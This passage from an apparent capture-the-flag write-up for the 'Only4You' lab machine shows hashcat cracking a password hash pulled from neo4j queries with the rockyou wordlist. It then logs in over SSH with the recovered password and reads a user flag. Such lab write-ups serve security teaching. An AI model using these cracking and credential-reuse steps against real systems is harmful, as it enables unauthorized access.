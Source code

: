 As you can see above we ran through some of the neo4j cypher queries and we were able to eventually pull out a username and a password hash from the queries. We can then take these to `hashcat` to attempt to crack.

### Hashcat

I tried running both the admin and john hash through hashcat but only john returned a result:

```powershell
hashcat-6.2.5> .\hashcat.exe -m 1400 C:\temp\john.txt C:\temp\wordlists\rockyou.txt
hashcat (v6.2.5) starting

...SNIP

Dictionary cache hit:
* Filename..: C:\temp\wordlists\rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6:ThisIs4You
```

### SSH as John

Now that we got a password for John, let's try and ssh into the machine.

```console
toasty@parrot$ sshpass -p ThisIs4You ssh john@only4you.htb
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-146-generic x86_64)

...SNIP
Last login: Fri Aug 25 20:58:13 2023 from 10.10.14.171
john@only4you:~$ id
uid=1000(john) gid=1000(john) groups=1000(john)
```

### User.txt

```console
john@only4you:~$ ls
user.txt
john@only4you:~$ cat user.txt 
1b8d2***************************
```

## Machine Flag

I ran through the machine flag on a separate instance. I will have to come back at a later point and fill out this section.
